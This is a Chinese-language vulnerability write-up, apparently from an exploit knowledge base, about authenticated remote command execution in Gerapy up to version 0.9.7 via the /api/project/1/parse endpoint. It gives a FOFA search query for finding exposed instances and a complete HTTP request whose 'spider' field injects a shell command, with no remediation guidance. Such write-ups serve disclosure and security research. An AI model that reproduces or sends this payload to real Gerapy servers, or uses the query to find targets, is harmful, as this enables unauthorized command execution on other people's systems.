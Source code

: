 # Gerapy parse 后台远程命令执行漏洞

## 漏洞描述

Gerapy gerapy/server/core/views.py 中的方法存在任意命令执行，攻击者登录后台后发送特定的请求包即可利用漏洞 

## 漏洞影响

<a-checkbox checked>Gerapy <= 0.9.7</a-checkbox></br>

## FOFA

<a-checkbox checked>title="Gerapy"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1638069254477-82075ea9-6191-4ebd-8e92-bed0104a0942-20220313132256739.png)

出现漏洞的文件为 **gerapy/server/core/views.py**

![img](../../../.vuepress/public/img/1638185162093-04fc1593-86b0-4c91-b8d3-32ae22fc224d.png)

构造请求包测试命令执行

```python
POST /api/project/1/parse HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Accept: application/json, text/plain, */*
Authorization: Token 0fb31a60728efd8e6398349bea36fa7629bd8df0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.55 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 18

{"spider":";`id`"}
```

![img](../../../.vuepress/public/img/1638185190368-660687ff-2bb8-4251-8b66-811fca41ca9b.png)